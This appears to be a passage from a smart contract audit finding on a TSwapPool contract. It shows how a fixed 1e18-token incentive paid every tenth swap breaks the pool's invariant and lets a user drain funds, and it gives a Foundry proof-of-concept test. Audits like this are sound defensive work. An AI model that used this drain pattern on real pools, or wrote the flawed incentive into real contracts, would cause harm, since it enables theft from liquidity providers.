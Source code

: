 Additionally, the same amount `1e18` is used no matter what type of output token is used (pool token or WETH). This means that some users will get more value than others.

The invariant is broken in the following code:

```javascript
        swap_count++;
        if (swap_count >= SWAP_COUNT_MAX) {
            swap_count = 0;
@>          outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
        }
```

**Impact:** A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

**Proof of Concept:**

1. A user swaps 10 times and collects the extra incentive of `1e18` tokens
2. That user continues to swap untill all the protocol funds are drained

**POC code**

Paste the following test into `test/unit/TSwapPool.t.sol` file

```javascript
    function test_audit_ConstantProductInvariantBreaks() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 swapCount = 10;
        uint256 outputWeth = 1e18;
        int256 startingWethAmount = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaWethAmount = -1 *
            int256(outputWeth) *
            int256(swapCount);

        vm.startPrank(user);
        poolToken.mint(user, 1000e18);
        poolToken.approve(address(pool), type(uint256).max);
        for (uint256 i = 0; i < swapCount; i++) {
            pool.swapExactOutput(
                poolToken,
                weth,
                outputWeth,
                uint64(block.timestamp)
            );
        }
        vm.stopPrank();

        int256 endingWethAmount = int256(weth.balanceOf(address(pool)));
        int256 actualDeltaWethAmount = endingWethAmount - startingWethAmount;
        assertEq(
            actualDeltaWethAmount,
            expectedDeltaWethAmount,
            "WETH amount did not change as expected"
        );
    }
```

